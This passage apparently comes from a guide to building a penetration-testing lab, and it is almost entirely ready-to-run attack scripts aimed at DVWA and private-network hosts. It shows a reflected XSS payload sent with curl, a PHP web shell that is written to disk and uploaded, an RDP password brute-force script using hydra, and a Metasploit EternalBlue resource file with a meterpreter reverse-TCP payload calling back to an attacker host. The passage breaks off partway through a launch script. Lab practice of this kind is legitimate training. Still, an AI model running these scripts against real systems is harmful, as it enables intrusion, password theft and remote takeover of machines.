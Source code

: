 ```bash
  --batch --dbs -o $OUTPUT_DIR/sqlmap.txt

# XSS testing
echo "[*] Testing XSS..."
curl "http://$TARGET/dvwa/vulnerabilities/xss_r/?name=<script>alert('XSS')</script>" \
  -o $OUTPUT_DIR/xss-test.html

# File upload test
echo "[*] Testing file upload..."
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.php
curl -F "fileToUpload=@/tmp/shell.php" http://$TARGET/uploads/index.php \
  -o $OUTPUT_DIR/upload-result.txt

echo "[+] Web attacks complete! Check $OUTPUT_DIR"
EOF

chmod +x ~/attack-scripts/exploit/web-attacks.sh
```

### 4. RDP Brute Force Script

```bash
tee ~/attack-scripts/exploit/rdp-bruteforce.sh > /dev/null <<'EOF'
#!/bin/bash

# RDP Brute Force Attack
TARGET=${1:-192.168.1.30}
USERNAME=${2:-admin}
WORDLIST=${3:-/usr/share/wordlists/metasploit/unix_passwords.txt}
OUTPUT_DIR=~/attack-logs/$(date +%Y%m%d_%H%M%S)_rdp-brute
mkdir -p $OUTPUT_DIR

echo "[*] Starting RDP brute force attack"
echo "[*] Target: $TARGET"
echo "[*] Username: $USERNAME"

# Using hydra
hydra -l $USERNAME -P $WORDLIST -t 4 rdp://$TARGET -o $OUTPUT_DIR/results.txt

echo "[+] Attack complete! Check $OUTPUT_DIR/results.txt"
EOF

chmod +x ~/attack-scripts/exploit/rdp-bruteforce.sh
```

### 5. Metasploit Automation Script

```bash
tee ~/attack-scripts/exploit/msf-eternal-blue.rc > /dev/null <<'EOF'
# Metasploit EternalBlue Exploit Script
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.30
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit -j
EOF

# Create launch script
tee ~/attack-scripts/exploit/run-eternalblue.sh > /dev/null <<'EOF'
#!/bin/bash
OUTPUT_DIR=~/attack-logs/$(date +%Y%m%d_%H%M%S)_eternalblue
mkdir -p $OUTPUT_DIR

```